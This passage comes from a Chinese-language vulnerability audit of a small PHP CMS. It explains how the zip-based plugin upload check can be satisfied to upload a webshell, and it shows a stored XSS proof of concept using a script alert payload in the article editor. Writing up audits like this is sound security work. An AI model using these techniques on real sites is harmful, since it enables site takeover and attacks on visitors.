
所以猜出getFromName函数应该是判断压缩包下的文件目录如果与传入的参数一致，则返回true，所以可以看出我们上传的文件夹名必须和文件名是相同的，后面即可解压压缩包，上传webshell
如果我们上传的压缩包只包含一个php文件，可以看一下测试的响应结果：

那么$dir . $plugin_name . '.php'拼接的结果是demo.php/demo.php.php，从响应结果Location: ./plugin.php?error_e=1来看很明显是上传失败，返回-1，说明是$re == false导致的，即getFromName函数判断压缩包不存在该目录
5.存储型XSS /admin/write_log.php添加文章存在html代码形式，尝试直接添加<script>alert('xss')</script>

添加后访问网站首页出现弹框

抓包分析

跟踪到/admin/save_log.php文件

$content变量只有经过转义处理，还是过滤不当引起的xss
总结 该CMS较小，代码简洁易懂，大部分的漏洞，由于全局不存在输入过滤，所以通过全局搜索POST，GET数据发现的，还是那句话，输入过滤不够，导致的漏洞